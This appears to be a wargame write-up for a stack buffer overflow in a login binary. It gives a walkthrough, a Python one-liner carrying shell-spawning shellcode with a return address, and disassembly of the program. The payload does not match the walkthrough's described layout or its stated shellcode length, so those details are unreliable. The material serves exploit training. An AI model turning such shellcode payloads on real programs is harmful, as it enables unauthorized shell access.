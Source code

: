 # Level 01

## Vulnerability type:

Buffer Overflow

## Walkthrough:

The program takes user input for username and password.
Two buffer overflow vulnerabilities exist: one for each fgets call.
The second overflow is critical, allowing us to overwrite the return address.
Trigger the overflow after entering the correct username ("dat_wil").
Exploit by redirecting execution to a jmp esp gadget in the libc.
Use a payload structure: [SHELLCODE (28 bytes)] + ['B' * 52] + [JMP ESP gadget addr] + [SUB ESP,0x54; JMP ESP].
Manually exploit the program or automate it using Python and pwn library.

## Payload:

Contains shellcode for spawning a shell.
Padding, jmp esp gadget address, and stack pointer adjustment instructions are included.

```sh
python -c 'print "dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "A" * 80 + "\x47\xa0\x04\x08"' > /tmp/payload1

```

## Assembly code

### main

```
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8 => "********* ADMIN LOGIN PROMPT *********"
   0x080484fe <+46>:	call   0x8048380 <puts@plt>
   0x08048503 <+51>:	mov    eax,0x80486df => "Enter Username: "
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0 => "nope, incorrect username...\n"
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d => "Enter Password: "
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e => "nope, incorrect password...\n"
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
```

### verify_user_name

```
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690 => "verifying username....\n"
   0x08048473 <+15>:	call   0x8048380 <puts@plt>
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
```

### verify_user_pass

```
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
```
